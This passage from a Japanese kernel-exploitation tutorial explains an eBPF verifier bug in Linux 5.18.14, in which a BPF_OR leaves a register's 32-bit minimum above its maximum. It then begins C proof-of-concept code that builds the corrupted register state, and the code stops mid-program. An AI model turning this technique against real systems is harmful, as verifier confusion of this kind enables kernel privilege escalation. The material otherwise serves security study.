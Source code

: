 ```c
			var32_off.value | (var32_off.mask & S32_MAX));
	reg->u32_min_value = max_t(u32, reg->u32_min_value, (u32)var32_off.value);
	reg->u32_max_value = min(reg->u32_max_value,
				 (u32)(var32_off.value | var32_off.mask));
}
```
`__mark_reg32_known`が呼ばれていないため、32ビットのmin, maxは古い状態のままです。これを利用して更新されるmin, maxに不整合を起こせないでしょうか。簡単のために符号なしの場合を考えます。
```c
reg->u32_min_value = max_t(u32, reg->u32_min_value, (u32)var32_off.value);
reg->u32_max_value = min(reg->u32_max_value,
			 (u32)(var32_off.value | var32_off.mask));
```
今、レジスタの下位32ビットはsrc, dstともに定数です。そのため、`var32_off.mask`は0で、次のように書き直せます。
```c
reg->u32_min_value = max(reg->u32_min_value, var32_off.value);
reg->u32_max_value = min(reg->u32_max_value, var32_off.value);
```
`u32_min_value`と`u32_max_value`は宛先レジスタの元の状態が引き継がれています。下位32ビットは定数である必要があるので、元の`u32_min_value`と`u32_max_value`はともにXという値だったとします。これに対して何かしらの定数YをORして、結果が`X|Y`になります。すると、`X|Y > X`のとき、
```c
reg->u32_min_value = max(X, X|Y); // min=X|Y
reg->u32_max_value = min(X, X|Y); // max=X
```
となり、`u32_min_value`が`u32_max_value`よりも大きくなるという不整合が起きます。

### バグの再現
簡単のためにX=0, Y=1として考えましょう。
まず、次のようなレジスタR1, R2を用意します。
```
R1: var_off=(value=0; mask=0xffffffff00000000)
R2: var_off=(value=0xfffffffe00000001; mask=0)
```
これを`BPF_OR(R1, R2)`でORした際の変化を見てみましょう。

1. `var_off=(value=0xfffffffe00000001; mask=0x100000000)`
2. `u32_min_value = max(0, 1) = 1`
3. `u32_max_value = min(0, 1) = 0`

これにより、32ビット部分の最小値が1、最大値が0という壊れたレジスタができます。実際にコードで確認しましょう。
```c
  // BPFマップを作成
  int mapfd = map_create(8, 1);

  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_0, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),

    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),

```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外
